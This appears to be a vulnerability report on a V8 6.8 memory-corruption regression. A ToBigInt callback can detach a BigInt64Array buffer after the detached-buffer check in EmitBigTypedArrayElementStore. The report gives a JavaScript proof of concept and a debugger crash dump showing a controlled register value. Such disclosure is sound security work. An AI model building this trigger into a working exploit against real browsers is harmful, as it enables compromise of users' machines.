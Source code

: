 Vulnerability Details
This appears to be a bug that was introduced after fixing 816961. I don't have permission to view the issue, but the regression test `regress-crbug-816961.js` covers all cases except the BigInt64Array codepath.

`TypedArrayOf`(builtins-typedarray.cc:1634) has a special case for BigInt64Arrays which is handled by `EmitBigTypedArrayElementStore` (code-stub-assembler.cc:8815).

(line numbers taken from 6.8.275.24)

1675 if (kind == BIGINT64_ELEMENTS || kind == BIGUINT64_ELEMENTS) {
1676    EmitBigTypedArrayElementStore(new_typed_array, elements,
1677    intptr_index, item, context,
1678    &if_neutered);

`EmitBigTypedArrayElementStore` checks to see if the BigInt64Array is neutered and if so bails out. The check happens before `ToBigInt` which triggers callbacks.

 8815 void CodeStubAssembler::EmitBigTypedArrayElementStore(
 8816     TNode<JSTypedArray> object, TNode<FixedTypedArrayBase> elements,
 8817     TNode<IntPtrT> intptr_key, TNode<Object> value, TNode<Context> context,
 8818     Label* opt_if_neutered) {
 8819   if (opt_if_neutered != nullptr) { <----- Check for neuter
 8820     // Check if buffer has been neutered.
 8821     Node* buffer = LoadObjectField(object, JSArrayBufferView::kBufferOffset);
 8822     GotoIf(IsDetachedBuffer(buffer), opt_if_neutered);
 8823   }
 8824
 8825   TNode<BigInt> bigint_value = ToBigInt(context, value); <------- Callbacks are triggered (neuter)
 8826   TNode<RawPtrT> backing_store = LoadFixedTypedArrayBackingStore(elements);
 8827   TNode<IntPtrT> offset = ElementOffsetFromIndex(intptr_key, BIGINT64_ELEMENTS,
 8828                                                  INTPTR_PARAMETERS, 0);
 8829   EmitBigTypedArrayElementStore(elements, backing_store, offset, bigint_value);
 8830 }


Version
V8  6.8.275.24


Reproduction case

I've used %ArrayBufferNeuter and gc for simplicity

```
// Tested with
// gn args
//    is_debug=false
// EOF
// or x64.release
// flags: --allow-natives-syntax --expose-gc

var array = new BigInt64Array(11);

function evil_callback() {
  print("callback");
  %ArrayBufferNeuter(array.buffer);
  gc();
  return 71748523475265n - 16n; // rax: 0x41414141414141
}

var evil_object = {valueOf: evil_callback}

var root = BigInt64Array.of.call(
  function() { return array },
  evil_object
)

gc(); // trigger
```

$ ./out/x64.release/d8 --allow-native-syntax --expose-gc ./bigint-v8.js

```
──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────[ registers ]────
$rax   : 0x414141414131    
$rbx   : 0x55555619c0e0      →  0x00005555561434f0  →  0x0000000000000000
$rcx   : 0x0               
$rdx   : 0x2               
$rsp   : 0x7fffffffc5d0      →  0x0000555556187ef0  →  0x00005555560d6190  →  0x0000555555b56360  →  <v8::internal::MarkCompactCollector::~MarkCompactCollector()+0> push rbp
$rbp   : 0x7fffffffc600      →  0x00007fffffffc640  →  0x00007fffffffc750  →  0x00007fffffffc790  →  0x00007fffffffc800  →  0x00007fffffffc960  →  0x00007fffffffca40  → 0x00007fffffffca60
$rsi   : 0x1ff             
$rdi   : 0x1               
$rip   : 0x555555b9bffb      →  <v8::internal::Sweeper::AddPage(v8::internal::AllocationSpace,+0> mov QWORD PTR [rax+rdx*8], r14
$r8    : 0x55555619c130      →  0x0000000000000001
$r9    : 0x1               
$r10   : 0x7fffffffc5d0      →  0x0000555556187ef0  →  0x00005555560d6190  →  0x0000555555b56360  →  <v8::internal::MarkCompactCollector::~MarkCompactCollector()+0> push rbp
$r11   : 0x263816e8c028a0  
$r12   : 0x55555619c1f8      →  0x0000000000000000
$r13   : 0x0               
$r14   : 0x176c82000000      →  0x0000000000080000
$r15   : 0x55555619c130      →  0x0000000000000001
$eflags: [carry parity adjust zero sign trap INTERRUPT direction overflow RESUME virtualx86 identification]
$ss: 0x002b  $gs: 0x0000  $ds: 0x0000  $fs: 0x0000  $cs: 0x0033  $es: 0x0000  
──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────[ stack ]────
0x00007fffffffc5d0│+0x00: 0x0000555556187ef0  →  0x00005555560d6190  →  0x0000555555b56360  →  <v8::internal::MarkCompactCollector::~MarkCompactCollector()+0> push rbp         ← $rsp, $r10
0x00007fffffffc5d8│+0x08: 0x0000176c82000000  →  0x0000000000080000
0x00007fffffffc5e0│+0x10: 0x000055555619cfd0  →  0x0000000000000000
0x00007fffffffc5e8│+0x18: 0x0000000000000000
0x00007fffffffc5f0│+0x20: 0x0000176c82080000  →  0x0000000000080000
0x00007fffffffc5f8│+0x28: 0x000055555619cf40  →  0x00005555560d5cf8  →  0x0000555555b486f0  →  <v8::internal::PagedSpace::~PagedSpace()+0> push rbp
0x00007fffffffc600│+0x30: 0x00007fffffffc640  →  0x00007fffffffc750  →  0x00007fffffffc790  →  0x00007fffffffc800  →  0x00007fffffffc960  →  0x00007fffffffca40  →  0x00007fffffffca60  ← $rbp
0x00007fffffffc608│+0x38: 0x0000555555b638d8  →  <v8::internal::MarkCompactCollector::StartSweepSpace(v8::internal::PagedSpace*)+232> mov rbx, r14
───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────[ code:i386:x86-64 ]────
   0x555555b9bfed <v8::internal::Sweeper::AddPage(v8::internal::AllocationSpace,+0> shr    rcx, 0x9
   0x555555b9bff1 <v8::internal::Sweeper::AddPage(v8::internal::AllocationSpace,+0> mov    rax, QWORD PTR [rax+rcx*8]
   0x555555b9bff5 <v8::internal::Sweeper::AddPage(v8::internal::AllocationSpace,+0> and    edx, 0x1ff
 → 0x555555b9bffb <v8::internal::Sweeper::AddPage(v8::internal::AllocationSpace,+0> mov    QWORD PTR [rax+rdx*8], r14
   0x555555b9bfff <v8::internal::Sweeper::AddPage(v8::internal::AllocationSpace,+0> add    QWORD PTR [r12], 0x1
   0x555555b9c004 <v8::internal::Sweeper::AddPage(v8::internal::AllocationSpace,+0> mov    rdi, r15
   0x555555b9c007 <v8::internal::Sweeper::AddPage(v8::internal::AllocationSpace,+0> add    rsp, 0x8
   0x555555b9c00b <v8::internal::Sweeper::AddPage(v8::internal::AllocationSpace,+0> pop    rbx
   0x555555b9c00c <v8::internal::Sweeper::AddPage(v8::internal::AllocationSpace,+0> pop    r12
────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────[ threads ]────
[#0] Id 1, Name: "d8", stopped, reason: SIGSEGV
[#1] Id 2, Name: "V8 WorkerThread", stopped, reason: SIGSEGV
[#2] Id 3, Name: "V8 WorkerThread", stopped, reason: SIGSEGV
[#3] Id 4, Name: "V8 WorkerThread", stopped, reason: SIGSEGV
──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────[ trace ]────
[#0] 0x555555b9bffb → Name: v8::internal::Sweeper::AddPage(v8::internal::AllocationSpace, v8::internal::Page*, v8::internal::Sweeper::AddPageMode)()
[#1] 0x555555b638d8 → Name: v8::internal::MarkCompactCollector::StartSweepSpace(v8::internal::PagedSpace*)()
[#2] 0x555555b596ca → Name: v8::internal::MarkCompactCollector::StartSweepSpaces()()
[#3] 0x555555b57848 → Name: v8::internal::MarkCompactCollector::CollectGarbage()()
[#4] 0x555555b3af52 → Name: v8::internal::Heap::MarkCompact()()
[#5] 0x555555b38e5c → Name: v8::internal::Heap::PerformGarbageCollection(v8::internal::GarbageCollector, v8::GCCallbackFlags)()
[#6] 0x555555b3767d → Name: v8::internal::Heap::CollectGarbage(v8::internal::AllocationSpace, v8::internal::GarbageCollectionReason, v8::GCCallbackFlags)()
[#7] 0x555555b36399 → Name: v8::internal::Heap::CollectAllGarbage(int, v8::internal::GarbageCollectionReason, v8::GCCallbackFlags)()
[#8] 0x55555588677b → Name: v8::internal::FunctionCallbackArguments::Call(v8::internal::CallHandlerInfo*)()
[#9] 0x555555885cb7 → Name: v8::internal::MaybeHandle<v8::internal::Object> v8::internal::(anonymous namespace)::HandleApiCallHelper<false>(v8::internal::Isolate*, v8::internal::Handle<v8::inter
nal::HeapObject>, v8::internal::Handle<v8::internal::HeapObject>, v8::internal::Handle<v8::internal::FunctionTemplateInfo>, v8::internal::Handle<v8::internal::Object>, v8::internal::BuiltinArgum
ents)()
```

bigint-v8.js (tested with release version of V8 6.8.275.24)
